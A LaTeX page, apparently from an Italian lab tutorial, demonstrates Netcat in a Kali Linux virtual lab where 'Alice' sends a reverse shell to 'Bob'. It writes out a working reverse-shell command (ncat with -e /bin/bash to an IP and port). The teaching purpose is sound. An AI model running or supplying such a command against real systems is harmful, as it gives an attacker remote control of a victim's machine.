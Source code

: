 \documentclass[14pt]{extreport}
\begin{document}
Mettiamo Bob in ascolto sulla stessa porta.




\begin{figure}[H]
    \centering
    \texttt{[image: NETCAT/VirtualBox\_Kali Linux\_26\_02\_2021\_17\_17\_42]}
    \caption{Il comando ifconfig mostra che Bob ora ha il controllo del PC di Alice}
\end{figure}











Ora sul PC di Alice lanciamo Netcat in modalità non ascolto, inviando a Bob una shell tramite il comando:





\vspace{5pt}

{
\small
\begin{tcolorbox}

\begin{verbatim}

$ ncat -nv 193.20.1.3 4444 -e /bin/bash
  
\end{verbatim}

\end{tcolorbox}
}

\vspace{5pt}




\begin{figure}[H]
    \centering
    \texttt{[image: NETCAT/VirtualBox\_Kali Linux\_26\_02\_2021\_17\_23\_07]}
    \caption{Il comando ifconfig mostra che Bob ora ha il controllo del PC di Alice}
\end{figure}













Questa shell che Bob riceve è denominata \textit{reverse shell}, con la quale può tranquillamente lavorare col PC di Alice.
Quindi in genere le vittime vengono usate come client verso hacker che stanno in ascolto.
\end{document}
